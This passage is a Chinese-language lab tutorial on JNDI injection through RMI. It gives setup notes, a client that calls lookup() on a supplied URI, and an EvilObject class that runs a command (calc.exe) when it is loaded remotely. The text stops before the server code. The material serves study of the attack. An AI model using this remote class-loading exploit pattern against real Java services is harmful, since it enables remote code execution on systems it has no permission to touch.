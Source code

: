 ### RMI攻击实验

- JDK 1.8.0_73 或其他 1.8 版本（避免 JNDI 劫持的相关安全补丁影响）
- python环境，没有硬性版本要求，只是用来临时搭建一个HTTP文件服务器
- 任意支持 Java 的 IDE 或文本编辑器
- 确保网络环境通畅，用于远程加载 `EvilObject` 的 `.class` 文件。

建议如下文件结构，分级更加清晰：

```
/JNDI-Injection-Lab/
    ├── client/                 # 存放 JNDIClient.java
    ├── server/                 # 存放 RMIService.java
    ├── malicious/              # 存放 EvilObject.java
```

### client.JNDIClient.java

此代码模拟客户端调用 `lookup` 方法，从指定的 RMI 服务中请求对象。

```java
package client;

import javax.naming.Context;
import javax.naming.InitialContext;

public class JNDIClient {
    public static void main(String[] args) throws Exception {
        if (args.length < 1) {
            System.out.println("Usage: java JNDIClient <uri>");
            System.exit(-1);
        }
        String uri = args[0];
        Context ctx = new InitialContext();
        System.out.println("Using lookup() to fetch object with " + uri);
        ctx.lookup(uri);
    }
}
```

编译命令(我使用的是windows，所以这里我以Windows写法为准)：

```cmd
"C:\Program Files\Java\jdk1.8.0_73\bin\javac.exe" JNDIClient.java
```

### malicious.EvilObject.java

这是包含恶意代码的类，当加载时执行任意操作（此处为弹出计算器）。

```java
package malicious;
public class EvilObject {
    public EvilObject() throws Exception {
        Runtime rt = Runtime.getRuntime();
        String[] commands = {"cmd", "/C", "calc.exe"};
        Process pc = rt.exec(commands);
        pc.waitFor();
    }
}
```
